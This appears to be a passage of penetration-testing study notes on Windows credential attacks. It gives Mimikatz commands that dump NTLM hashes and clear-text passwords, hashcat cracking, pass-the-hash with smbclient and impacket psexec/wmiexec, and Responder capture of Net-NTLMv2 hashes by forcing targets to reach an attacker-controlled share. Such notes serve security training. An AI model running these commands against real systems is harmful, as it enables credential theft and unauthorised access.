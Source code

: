 ```</p>
<li><code>lsadump::sam</code> will dump NTLM hashes of local users</li>
<li><code>sekurlsa::logonpasswords</code> will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets</li>
<li>One-liner: <code>.\mimikatz.exe &quot;privilege::debug&quot; &quot;token::elevate&quot; &quot;sekurlsa::msv&quot; &quot;lsadump::sam&quot; &quot;exit&quot;</code></li>
</ul>
</li>
<li>Crack NTLM<ul>
<li><code>hashcat -m 1000 {hash} {password_list} -r {mutations} --force</code></li>
</ul>
</li>
<li><strong>Passing NTLM</strong><ul>
<li>Don&#39;t necessarily need to crack the NTLM hash to use it<ul>
<li>NTLM hashes aren&#39;t salted between sessions and remain static</li>
</ul>
</li>
<li>Many tools available:<ul>
<li>SMB enumeration: <code>smbclient</code> and <code>crackmapexec</code></li>
<li>Command execution: <code>impacket</code> -&gt; <code>psexec.py\/wmiexec.py</code></li>
<li><code>Mimikatz</code> can also pass-the-hash</li>
</ul>
</li>
<li>Example - accessing SMB share with <code>smbclient</code><ul>
<li><code>smbclient \\\\{IP}\\{SMB_share_endpoint} -U Administrator --pw-nt-hash {hash_from_Mimikatz}</code></li>
</ul>
</li>
<li>Example2 - getting a shell as an Administrator with <code>psexec.py</code><ul>
<li>Searches for a writeable share and uploads an exe to it, registers exe as a Windows service and starts it</li>
<li><code>impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}</code> and</li>
<li><code>impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}</code></li>
</ul>
</li>
</ul>
</li>
<li>Cracking Net-NTLMv2<ul>
<li>Useful when we are an unprivileged user</li>
<li>We have the target start authentication against a machine we own, and capture the hash used during the authentication process</li>
<li><em>Responder</em> is a good tool for capturing Net-NTLMv2 hashes<ul>
<li>Sets up an SMB server that handles auth process and prints hashes</li>
<li><code>sudo responder -I {network interface (like tap0)}</code> to run responder on any given network interface</li>
</ul>
</li>
<li>Getting the target server to contact our server is tricky<ul>
<li>With RCE, it&#39;s easy, just run something like <code>dir \\{Our_machine_IP}\share</code> on the machine running the responder server<ul>
<li>Then, crack the hash with hashcat 5600</li>
</ul>
</li>
<li>Without RCE, there are a couple different techniques<ul>
<li>If there&#39;s a file upload on a webserver on the target, we can use a UNC path (<code>\\{our_IP}\share\xyz)</code> and the application may try to reach out for the file<ul>
<li>This might not work if the slashes are the wrong way, so try something like <code>//{IP}/share.php</code> as the filename</li>
</ul>
</li>
<li>I&#39;d assume local file inclusion would have the same result</li>
</ul>
</li>
</ul>
```